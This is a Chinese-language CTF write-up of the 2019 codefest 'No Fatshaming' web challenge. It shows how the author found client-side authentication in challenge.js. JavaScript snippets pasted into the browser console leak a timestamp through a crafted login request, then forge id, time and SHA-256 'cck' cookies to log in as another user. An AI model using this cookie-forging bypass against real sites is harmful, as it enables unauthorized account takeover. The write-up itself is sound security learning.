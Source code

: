 難度 :  :star::star:
  
![question](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic1.png)
![question2](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic2.png)
![question3](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic3.png)
![question4](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic4.png)
![question5](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic5.png)

解題流程: <br>
        很簡潔的網頁, 只有登入和註冊, 登入後什麼東西都沒有 <br>
        用 sqlmap 和 xss 都沒有結果, 只能開始看看前端的 code <br>
        發現它引入一個客製化的 challenge.js <br>
        ![bug](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/bug.png)<br>
        進去一看發現是認證的 code , 認證 code 寫在前端往往不怎麼安全 <br>
        
        首先, 命名的方式很差所以先[美化](http://www.jsnice.org/)一下<br>
        美化後的結果放在 nice.js <br>
        從 nice.js 得知, 當按下 Log in! 後會去執行 setup
```javascript=
$("#login-form")["submit"]((result) => {
    result["preventDefault"]();
    setUpUserAutosuggest();
  });
```
 setup  會去檢查註冊時間和 cookie 設的是否一樣
 ``` javascript=
 if (data["time"] != val) {
              config["failure"]();
}
```
一樣的話執行 login 否則執行 doLogin <br>
而 login 會檢查 id 和 cck <br>
其中, cck 由 factory 計算而來 <br>
因此, 思緒就清楚了, <b>我們要的是 id cck 和 time</b>
id 可以自行控制 , cck 由 id 和 time 決定 , 因此關鍵在 time <br>
而我們得知 time 會在 setup 被用到, 所以設計自己的 setup 並輸入到 console <br>
```javascript=
function setup(id) {
    $["ajax"]({
          "url" : "api/login/",
          "type" : "POST",
          "headers" : {
            "X-Cache-Command" : "META",
            "X-Cache-User" : id
          },
          "success" : (data) => {
                console.log(data);
            }
    });
}
```
( 什麼都不要檢查, 把接收到的 data 全部吐出來 )<br>
輸入 setup(1), 我們就拿到 time 了 <br>
接著我們透過 _build 幫我們設定 cookie <br>
```javascript=
function factory(spec) {
    var shaObj = new jsSHA("SHA-256", "TEXT");
    var existing = spec["id"] + " 000 114328 000 " + spec["time"];
    shaObj["update"](existing);
    var KongPluginsService = shaObj["getHash"]("HEX");
    return KongPluginsService;
}
function _build(value) {
    Cookies["set"]("id", value["id"]);
    Cookies["set"]("time", value["time"]);
    Cookies["set"]("cck", factory(value));
  }
```
因為 _build 會用到 factory 所以 factory 也要一併傳入 <br>
接著, 輸入 _build({"id":"1", "time": "剛剛接收到的"}) <br>
最後, 將 username 也就是 id 輸入 1, 按 Log in! 就能成功進去了 , 但 flag 在 id=6 的身上 <br>
